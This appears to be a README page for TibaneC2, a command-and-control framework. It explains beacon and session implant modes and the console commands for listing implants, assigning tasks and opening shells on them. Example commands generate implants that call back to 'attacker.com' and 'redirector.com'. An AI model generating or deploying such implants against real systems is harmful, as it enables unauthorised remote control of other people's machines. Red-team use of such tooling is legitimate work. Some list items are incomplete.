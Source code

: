 # Implants

TibaneC2 supports two modes:
- beacon mode
	- Implements as communication style where a implant periodically checks in with the server to retrieve tasks, executes them, and returns the results
- session mode
	- Implements a interactive session using either a persistent connection or long polling depending on the protocol used.
## Generating Implants
### Examples
- Beacon Mode
```sh
get-implant beacon -os=linux -channel=https -domain=attacker.com:433 -o=agent
```
- Session Mode
```sh
get-implant session -os=windows -channel=tcp_ssl  -domain=redirector.com:8888 -o=/home/user/implant.exe
```

## Interacting with implants
The console `tibane-console` is used to interact with implants
Implants are considered  "active implants" if they have connected to C2 server in the last 30 days.

Command `implants` shows all active implants
### Beacon Mode
Beacons first registers itself with the C2 server, then tries to retrieve tasks, executes them and return results.
Command `beacons` will show all active beacons (implants).
Command `beacon [id]` which will give a shell specifically for the beacon.
Commands about tasks.
1. `new-task [task]` task will be 
2. `list-tasks` : list all tasks, status, and responses related to this implant
3. `response-task [task id]` shows task and response
4. 
### Session Mode
Command `session [id]`  will give a interactive shell.
